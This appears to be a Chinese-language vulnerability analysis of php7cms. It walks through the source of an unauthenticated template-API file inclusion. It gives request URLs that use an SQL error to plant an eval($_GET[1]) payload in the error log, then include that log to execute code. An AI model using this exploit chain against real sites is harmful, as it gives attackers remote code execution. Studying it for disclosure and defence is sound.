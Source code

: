 利用思路
----

1. 前台未授权文件包含
2. 利用SQL注入报错插入payload到日志文件
3. 包含该日志文件得到webshell

漏洞分析
----

在php7cms/Core/Controllers/Api/Api.php:143

```php
    public function template() {

        ob_start();
        \Phpcmf\Service::V()->display(dr_safe_replace(\Phpcmf\Service::L('Input')->get('name')));
        $html = ob_get_contents();
        ob_clean();

        $this->_jsonp(1, $html);
    }
```

该函数动态调用模板的函数，是可以通过构造url来访问到的。

该函数接收一个参数name。并将该值带入到了display函数中，跟踪该函数。

php7cms/Fcms/Core/View.php:137

```php
 public function display($_name, $_dir = '') {

        extract($this->_options, EXTR_PREFIX_SAME, 'data');
        $this->_filename = $_name;

        !IS_DEV && $this->_options = null;
        // 加载编译后的缓存文件
        $this->_disp_dir = $_dir;
        $_view_file = $this->get_file_name($_name);
        $_view_name = str_replace([TPLPATH, FCPATH, APPSPATH], '', $_view_file);
        \Config\Services::timer()->start($_view_name);
        include $this->load_view_file($_view_file);
        \Config\Services::timer()->stop($_view_name);

        // 消毁变量
        $this->_include_file = null;
    }
这里的$_name被带入到了get_file_name函数中。跟踪该函数:
public function get_file_name($file, $dir = null, $include = FALSE) {

        $dir = $dir ? $dir : $this->_disp_dir;

        if (IS_ADMIN || $dir == 'admin' || $this->_is_admin) {
            // 后台操作时，不需要加载风格目录，如果文件不存在可以尝试调用主项目模板

            if (APP_DIR && is_file(MYPATH.'View/'.APP_DIR.'/'.$file)) {
                return MYPATH.'View/'.APP_DIR.'/'.$file;
            } elseif (!APP_DIR && is_file(MYPATH.'View/'.$file)) {
                return MYPATH.'View/'.$file;
            } elseif (is_file($this->_dir.$file)) {
                return $this->_dir.$file; // 调用当前后台的模板
            } elseif (is_file($this->_aroot.$file)) {
                return $this->_aroot.$file; // 当前项目目录模板不存在时调用主项目的
            } elseif ($dir != 'admin' && is_file(APPSPATH.ucfirst($dir).'/Views/'.$file)) {
                return APPSPATH.ucfirst($dir).'/Views/'.$file; // 指定模块时调用模块下的文件
            }
            $error = $this->_dir.$file;
        } elseif (IS_MEMBER || $dir == 'member') {
            // 会员操作时，需要加载风格目录，如果文件不存在可以尝试调用主项目模板
            if ($dir === '/' && is_file($this->_root.$file)) {
                return $this->_root.$file;
            } elseif (is_file($this->_dir.$file)) {
                // 调用当前的会员模块目录
                return $this->_dir.$file;
            } elseif (is_file($this->_mroot.$file)) {
                // 调用默认的会员模块目录
                return $this->_mroot.$file;
            } elseif (is_file($this->_root.$file)) {
                // 调用网站主站模块目录
                return $this->_root.$file;
            }
            $error = $dir === '/' ? $this->_root.$file : $this->_dir.$file;
        } elseif ($file == 'go') {
            // 转向字段模板
            return $this->_aroot.'go.html';
        } else {
            if ($dir === '/' && is_file($this->_root.$file)) {
                // 强制主目录
                return $this->_root.$file;
            } else if (@is_file($this->_dir.$file)) {
                // 调用本目录
                return $this->_dir.$file;
            } else if (@is_file($this->_root.$file)) {
                // 再次调用主程序下的文件
                return $this->_root.$file;
            }
            $error = $dir === '/' ? $this->_root.$file : $this->_dir.$file;
        }

        // 如果移动端模板不存在就调用主网站风格
        if (IS_MOBILE && is_file(str_replace('/mobile/', '/pc/', $error))) {
            return str_replace('/mobile/', '/pc/', $error);
        } elseif (IS_MOBILE && is_file(str_replace('/mobile/', '/pc/', $this->_root.$file))) {
            return str_replace('/mobile/', '/pc/', $this->_root.$file);
        } elseif ($file == 'msg.html' && is_file(TPLPATH.'pc/default/home/msg.html')) {
            return TPLPATH.'pc/default/home/msg.html';
        }

        exit('模板文件 ('.str_replace(TPLPATH, '/', $error).') 不存在');
    }
```

该函数是用来判断模板文件是否存在。由于文件名可控。导致我们可以通过../这样来跳转目录来使用其他我们可控的文件。

然后判断完毕文件存在后，回到上文。

```php
 include $this->load_view_file($_view_file);
```

这里将路径带入到了load\_view\_file函数中，并将返回结果include。看一下这个load\_view\_file函数:

```php
  public function load_view_file($name) {

        $cache_file = $this->_cache.str_replace(array(WEBPATH, '/', '\\', DIRECTORY_SEPARATOR), array('', '_', '_', '_'), $name).(IS_MOBILE ? '.mobile.' : '').'.cache.php';

        // 当缓存文件不存在时或者缓存文件创建时间少于了模板文件时,再重新生成缓存文件
        if (!is_file($cache_file) || (is_file($cache_file) && is_file($name) && filemtime($cache_file) < filemtime($name))) {
            $content = $this->handle_view_file(file_get_contents($name));
            @file_put_contents($cache_file, $content, LOCK_EX) === FALSE && show_error('请将模板缓存目录（/cache/template/）权限设为777', 404, '无写入权限');
        }

        return $cache_file;
    }
```

这里会将我们传入的文件路径的文件内容写入到缓存文件中，并返回该缓存文件的文件路径。

文件包含的点在这里，那么如何找到可控内容的文件就比较重要的。

这里我使用该网站自带的错误日志来进行包含。

首先我们访问：`http://localhost/index.php?s=news&c=search&keyword=%E5%9B%BA%E5%AE%9A&order=2%3C?=/*&sss=*/eval($_GET[1]);`

这样就会生成一个错误日志cache/error/log-2018-10-20.php

命名规则就是log-年-月-日.php

看一下这个文件的内容：

```php
<?php defined('BASEPATH') OR exit('No direct script access allowed'); ?>

ERROR - 2018-10-20 16:53:04 --> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?=/* LIMIT 0,10' at line 1<br>SELECT `dr_1_news`.`thumb`,`dr_1_news`.`url`,`dr_1_news`.`title`,`dr_1_news`.`description`,`dr_1_news`.`keywords`,`dr_1_news`.`updatetime`,`dr_1_news`.`hits`,`dr_1_news`.`comments` FROM `dr_1_news` WHERE (`dr_1_news`.`id` IN(SELECT `cid` FROM `dr_1_news_search_index` WHERE `id`="ce0f2ef8f63c9afa7453492781553547")) AND `dr_1_news`.`status` = 9 ORDER BY 2<?=/* LIMIT 0,10<br>http://localhost/index.php?s=news&c=search&keyword=%E5%9B%BA%E5%AE%9A&order=2%3C?=/*&sss=*/eval($_GET[1]);
```

因为程序对&lt;?php这种有过滤，所以这里采用短标签+注释符来执行代码。

然后我们将这个日志文件包含进来。

访问如下url。

`http://10.3.0.22/index.php?s=api&c=api&m=template&name=../../../../cache/error/log-2020-09-30.php&1=phpinfo();`

即可执行phpinfo

[![](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-8f1ebcee4df69b6dbbe982de798d111337b5045d.png)](https://shs3.b.qianxin.com/attack_forum/2021/04/attach-8f1ebcee4df69b6dbbe982de798d111337b5045d.png)